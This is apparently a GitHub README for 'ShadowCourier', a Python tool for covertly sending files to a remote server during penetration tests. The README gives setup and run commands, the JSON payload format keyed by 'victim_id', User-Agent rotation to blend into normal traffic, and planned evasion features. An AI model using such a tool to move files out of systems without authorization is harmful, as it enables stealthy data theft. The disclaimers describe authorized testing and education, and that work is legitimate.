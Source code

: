 ShadowCourier 🕵️‍♂️
Covert File Delivery for Penetration Testing

ShadowCourier is a stealthy, Python-based tool for secure file transfers in authorized penetration testing and CTF labs. With AES-256-CBC encryption, gzip compression, and User-Agent rotation, it mimics real-world covert operations while staying ethical. Perfect for red teamers and security enthusiasts who love a Hacker Simulator vibe.

⚠️ Ethical Use Only: ShadowCourier is for authorized testing and educational purposes. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.


🌟 Features

🔒 Military-Grade Encryption: Secures files with AES-256-CBC for safe transit.
📦 Compact Payloads: Gzip compression shrinks files (e.g., 378B to 200B) for stealth.
🕵️ Stealthy Transfers: Rotates User-Agent headers to blend into browser traffic.
🛠️ Easy Configuration: Uses shadow_S.conf (server) and shadow_C.conf (client) with environment variable overrides.
📂 Flexible Transfers: Supports single files or directories with relative paths.
🔄 Reliable Delivery: Configurable retries (default: 3) for unstable networks.
🎨 Cyberpunk Interface: tqdm progress bars for a sleek, real-time experience.

Stealth Score: 🟠 Moderate (6/10)  

Pros: Encrypted payloads, compressed data, browser-like headers.  
Cons: HTTP headers and fixed ports are detectable. See Future Enhancements.


🚀 Quick Start

Clone the Repo:
git clone https://github.com/MOmar990/ShadowCourier.git
cd ShadowCourier


Set Up Server:
python3 -m venv server/env
source server/env/bin/activate
pip install pycryptodome
python3 server/ghost_server.py


Set Up Client:
python3 -m venv client/env
source client/env/bin/activate:bold
pip install requests tqdm pycryptodome colorama
python3 client/shadow_client.py path/to/test.file


Configure: Edit server/shadow_S.conf and client/shadow_C.conf with your server IP and settings.



🛠️ How It Works
ShadowCourier uses a client-server model for secure file transfers:

Ghost Server (ghost_server.py):

Listens on a configurable port (default: 8080) at /upload.
Receives JSON payloads, decrypts AES-256-CBC data, decompresses gzip, and saves files to uploads/<victim_id>/.
Logs transfers with client IP and file sizes.


Shadow Client (shadow_client.py):

Compresses files with gzip, encrypts with AES-256-CBC, and sends via HTTP POST.
Rotates User-Agent headers (Chrome, Firefox, etc.) for stealth.
Shows progress with tqdm bars and file size stats.



Data Flow:
[Client] -> Gzip -> AES-256-CBC -> Base64 -> JSON -> HTTP POST
[Server] <- HTTP POST <- JSON <- Base64 <- AES-256-CBC <- Gzip

Sample Payload:
{
  "file": "base64_encrypted_data",
  "filename": "test.file",
  "key": "base64_aes_key",
  "iv": "base64_iv",
  "is_compressed": "true",
  "victim_id": "default_victim"
}


📋 Requirements

Python: 3.6+ (tested on 3.8–3.11)
OS: Linux (recommended), macOS, or Windows (adjust paths)
Dependencies:
Server: pycryptodome
Client: requests, tqdm, pycryptodome, colorama



Install:
pip install requests tqdm pycryptodome colorama


🎮 Usage
Start the Server
cd server
source env/bin/activate
python3 ghost_server.py --port 8080 --upload-dir ~/ShadowCourier/uploads

Output:
[*] Loaded config from shadow_S.conf
[*] Server online at 0.0.0.0:8080, saving to ~/ShadowCourier/uploads...

Run the Client
cd client
source env/bin/activate
python3 shadow_client.py path/to/file --url http://<server-ip>:8080/upload

Output:
[*] Loaded config from shadow_C.conf
[*] Transferring 1 files to http://<server-ip>:8080/upload
[*] Size: 378B, compressed: 200B, encrypted: 280B
[+] Success: file transferred

Options:

--port <PORT>: Server port.
--url <URL>: Server endpoint.
--victim-id <ID>: Custom ID for file organization.
--retries <N>: Retry attempts.


🛡️ Stealth Analysis

Pros: AES-256-CBC encryption, gzip compression, User-Agent rotation.
Cons: HTTP headers and fixed ports are scannable.

Stealth Score: 🟠 Moderate (6/10)

🐛 Troubleshooting

Server Unreachable:
curl -v http://<server-ip>:8080/upload
sudo ufw status


JSON Errors:Check file, filename, key, iv, is_compressed, victim_id in payloads.

Dependencies:
pip install requests tqdm pycryptodome colorama




🔮 Future Enhancements

HTTPS: Encrypt headers for stealth.
Dynamic Ports: Avoid scans.
Proxies: Add HTTP/SOCKS support.
Steganography: Hide data in images.

Suggest features via GitHub Issues!

🤝 Contributing

Fork the repo.
Branch: git checkout -b feature/awesome-idea.
Commit: git commit -m "Add awesome idea".
Push: git push origin feature/awesome-idea.
Open a Pull Request.

See Code of Conduct.

⚖️ License
MIT License

📜 Disclaimer
For educational and authorized use only. Misuse is illegal. The developers are not liable for unethical actions.

Star ⭐ the repo and hack ethically! 🖥️🔒
